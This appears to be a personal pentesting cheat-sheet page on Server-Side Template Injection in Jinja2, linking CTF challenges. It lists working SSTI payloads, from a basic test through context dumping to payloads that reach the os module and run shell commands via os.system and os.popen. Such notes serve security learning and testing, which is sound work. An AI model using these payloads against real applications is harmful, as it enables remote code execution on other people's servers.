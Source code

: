 # Server-Side Template Injection (SSTI)

[![jinja2_ssti](../../../../_badges/hacktricks/jinja2_ssti.svg)](https://book.hacktricks.xyz/pentesting-web/ssti-server-side-template-injection/jinja2-ssti)
[![python_ssti_introduction](../../../../_badges/rootme/web_server/python_ssti_introduction.svg)](https://www.root-me.org/en/Challenges/Web-Server/Python-Server-side-Template-Injection-Introduction)

<div class="row row-cols-lg-2"><div>

Server-Side Template Injection occurs when we can inject code that is parsed by a template engine such as [Jinja2](/programming-languages/web/others/templating/jinja2/index.md) in Python.

You may be able to guess the template engine used from the web server, for instance, if it's Python then it's most likely Jinja.
</div><div>

**Example for Jinja2** 🔥 ([article](
https://podalirius.net/en/publications/grehack-2021-optimizing-ssti-payloads-for-jinja2/))

* Basic Test: `{{ "PoC"|e }}`
* Test if debug is enabled: `{% debug %}`
* Try to print the context `{{ self._TemplateReference__context }}`
* Then, you might be able to perform code injection:

```js!
{{ self._TemplateReference__context.cycler.__init__.__globals__.os }}
{{ cycler.__init__.__globals__.os.system('ls') }}
{{ cycler.__init__.__globals__.os.popen("ls -1a").read() }}
```

If the first payload return something, then try to use the shorter one.
</div></div>

<hr class="sep-both">

## 👻 To-do 👻

Stuff that I found, but never read/used yet.

<div class="row row-cols-lg-2"><div>

* `{{ self.__init__.__globals__.__builtins__.__import__('os') }}`
</div><div>
</div></div>